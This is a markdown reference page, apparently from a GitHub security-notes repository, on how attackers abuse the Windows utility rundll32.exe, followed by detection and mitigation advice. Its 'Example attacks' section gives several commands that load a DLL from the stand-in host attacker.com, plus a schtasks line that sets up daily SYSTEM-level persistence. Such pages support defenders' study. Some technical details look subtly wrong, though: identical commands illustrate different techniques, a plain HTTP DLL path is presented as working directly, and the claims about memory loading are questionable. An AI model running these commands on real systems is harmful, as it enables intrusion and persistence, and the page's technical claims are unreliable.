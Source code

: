 # rundll32.exe
## What is it?
*```rundll32.exe``` is a legitimate Windows utility that is used to execute functions stored in dynamic link library (DLL) files.*
*It allows users and programs to call exported functions from DLLs without needing to load the entire DLL into memory.*
*Although it's a trusted Windows process, attackers often exploit it for executing malicious code, as it can bypass many security restrictions.*

## Legitimate Usage
- **Executing DLL Functions** → Call functions stored in DLLs that are required for system operations or application functionality.
- **System Configuration & Management** → Used to run certain Windows management scripts or components.
- **Application Initialization** → Many applications use ```rundll32.exe``` to load settings or start processes during startup.
- **Troubleshooting & Repair** → Administrators may use rundll32 to invoke repair functions from system DLLs.

## How to abuse it
- **Bypassing Execution Restrictions** → Attackers can use ```rundll32.exe``` to execute malicious DLLs, bypassing application whitelisting or execution controls.
- **Fileless Malware Execution** → It can be used to execute malicious payloads directly from memory, without writing them to disk.
- **Persistence Mechanism** → Attackers can exploit ```rundll32.exe``` to ensure persistence, as it's often whitelisted by security tools.
- **Privilege Escalation** → Malicious functions in DLLs can be invoked to elevate privileges or perform unauthorized actions on a system.

## Example attacks
### 1. Executing Malicious DLL
*Attackers can use ```rundll32.exe``` to execute a malicious function within a DLL, which could result in malware execution or system compromise.*

**Execute Malicious DLL**

```
rundll32.exe http://attacker.com/malicious.dll,EntryPoint
```

**Effect:**
- Executes a malicious function in a remote DLL, potentially installing malware or compromising the system.

### 2. Fileless Malware Execution
*Since rundll32 can execute code from memory, attackers can bypass file-based security checks.*

**Execute Malicious DLL from Memory**

```
rundll32.exe http://attacker.com/malicious.dll,EntryPoint
```

**Effect:**
- Malicious DLL is executed directly from memory, avoiding detection by file-based security software.

### 3. Persistence via Scheduled Task
*Attackers can use ```rundll32.exe``` in conjunction with a scheduled task to maintain persistence on a system.*

**Schedule Malicious DLL Execution**

```
schtasks /create /tn "MaliciousTask" /tr "rundll32.exe http://attacker.com/persistence.dll,EntryPoint" /sc daily /ru SYSTEM
```

**Effect:**
- Ensures that the malicious DLL is executed daily, allowing attackers to maintain control over the system.

### 4. Bypassing Application Whitelisting (AppLocker)
*Since ```rundll32.exe``` is a trusted system utility, attackers can use it to bypass application whitelisting or software restriction policies.*

**Bypass AppLocker to Execute Payload**

```
rundll32.exe http://attacker.com/payload.dll,EntryPoint
```

**Effect:**
- Executes a malicious payload using a whitelisted utility, bypassing security controls like AppLocker or SRP.

### 5. Remote Code Execution
*Attackers can use ```rundll32.exe``` to execute a DLL hosted on a remote server, allowing remote code execution.*

**Execute Remote Payload**

```
rundll32.exe http://attacker.com/remote_payload.dll,EntryPoint
```

**Effect:**
- Executes code hosted on an external server, enabling remote control over the target system.

# Detection & Mitigation
## Detection Methods
**Monitor rundll32 Executions**
- **Event ID 4688 (Process Creation)** → Detect when ```rundll32.exe``` is executed, especially when used with unusual DLLs or remote locations.
- **Analyze Function Calls** → Watch for suspicious function calls being executed from non-standard DLLs or IP addresses.
- **Fileless Execution Detection** → Detect executions of DLLs directly from memory or network locations.

**Monitor Scheduled Task Creation**
- **Event ID 4698 (Scheduled Task Created)** → Detect when a scheduled task attempts to execute ```rundll32.exe``` with potentially malicious arguments.

**Network Traffic Monitoring**
- **Monitor HTTP/HTTPS Traffic** → Look for unusual HTTP requests to download DLLs or other executable files, which may indicate malicious activity.

## Mitigation Strategies
- **Restrict rundll32 Access** → Use AppLocker or Device Guard to block or limit the use of ```rundll32.exe``` to authorized users and processes.
- **Block Remote Execution** → Use firewalls to prevent communication with untrusted external sources, limiting the ability to download and execute remote DLLs.
- **Disable Unnecessary Services** → Disable or limit the use of services that rely on ```rundll32.exe``` for legitimate operations, if they are not necessary.
- **Use Endpoint Protection Software** → Deploy security software capable of detecting unusual behavior associated with ```rundll32.exe``` and blocking unauthorized executions.
- **Regularly Review Scheduled Tasks** → Regularly audit and review scheduled tasks for any suspicious activity or unexpected execution of rundll32.
